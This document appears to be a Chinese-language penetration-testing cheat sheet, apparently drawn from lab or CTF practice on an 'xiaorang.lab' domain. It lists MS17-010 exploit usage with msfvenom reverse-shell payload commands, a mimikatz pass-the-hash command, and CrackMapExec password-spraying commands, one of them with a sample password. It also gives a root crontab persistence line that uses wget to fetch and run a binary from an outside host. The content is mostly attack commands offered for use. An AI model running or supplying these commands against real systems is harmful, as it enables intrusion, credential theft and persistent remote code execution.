 ### ms17-010

```bash
Usage: python3 ./ms17-010.py --host xxx --file xxx --port xxx

[!] You can make a nc reverse shell USER_SHELLCODE_FILE in kali2.0 by use :
    "msfvenom -p windows/x64/shell_reverse_tcp   LHOST=x.x.x.x LPORT=xxx -f raw > shellcode"

[!] You can make a meterpreter reverse shell USER_SHELLCODE_FILE in kali2.0 by use :
    "msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=x.x.x.x LPORT=xxx -f raw > shellcode"
```

```bash
usage: ms17-010.py [-h] [--host HOST] [--port PORT] [--file FILE]

Process some integers.

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  Host ip
  --port PORT, -p PORT  Target port,defalut:445
  --file FILE, -f FILE  User shellcode file
```

### CVE-2020-1472

### 哈希传递

[PTH攻击总结 - 嘶吼 RoarTalk – 网络安全行业综合服务平台](F:\LocalCTF\PTH攻击总结 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com.html)

```bash
sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:抓到的机器账户哈希
```

### 密码喷洒

就是对内网进行密码爆破

**CrackMapExec 对域内进行密码喷洒**

```bash
proxychains4 crackmapexec smb 10.10.20.1/24 -u ./user.txt -p ./passwd.txt -d <域名> --continue-on-success
```

```bash
proxychains4 -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#' -d <域名>
```

```bash
proxychains4 crackmapexec rdp 172.22.6.0/24 -u wenshao -p hellokitty -d xiaorang.lab
```



## Linux

### corntab 计划任务

ubuntu写计划任务

```bash
echo '* * * * * wget -qO NQW1y7kP --no-check-certificate http://192.168.10.58:8080/EQF1163sH; chmod +x NQW1y7kP; ./NQW1y7kP& disown' >> /var/spool/cron/crontabs/root
```

### Wget下载文件

如果获得机器的Shell，且能访问外网，可以使用Wget来下载文件
